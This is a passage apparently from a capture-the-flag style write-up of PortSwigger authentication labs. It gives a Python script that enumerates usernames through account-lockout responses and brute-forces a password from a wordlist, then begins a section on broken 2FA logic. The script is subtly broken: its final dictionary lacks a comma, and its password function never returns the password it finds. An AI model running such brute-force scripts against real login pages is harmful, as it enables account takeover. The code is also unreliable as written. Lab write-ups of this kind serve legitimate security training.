 ```python
def find_password(user):
	passwords = open('pass.txt','r')
	for p in passwords:
		data = {
			'username':user,
			'password':p.strip()
		}
		r = s.post(url + '/login', data=data, verify=False, proxies=proxies)
		
		if 'Invalid username or password' not in r.text and 'You have made too many incorrect login attempts.' not in r.text:
				print(f'[+] Password for {user} is {p}.')
				return


def find_user():
	users = open('users.txt', 'r')
	for u in users:
		for i in range(6):
			data = {
				'username':u.strip(),
				'password':'test'
			}
			r = s.post(url + '/login', data=data, verify=False, proxies=proxies)
			if 'Invalid username or password' not in r.text:
				print(f'[+] Different response observed for {u}')
				return u.strip()

user = find_user()
password = find_password(user)
time.sleep(61)
data = {
	'username':user
	'password':password
}
r = s.post(url + '/login', data=data, verify=False, proxies=proxies)
```

## Lab 8: 2FA Broken Logic

This lab has vulnerable 2FA logic. When taking a look at the login process for the `wiener` user, I saw this:

![](../../.gitbook/assets/portswigger-auth-writeup-image-15.png)
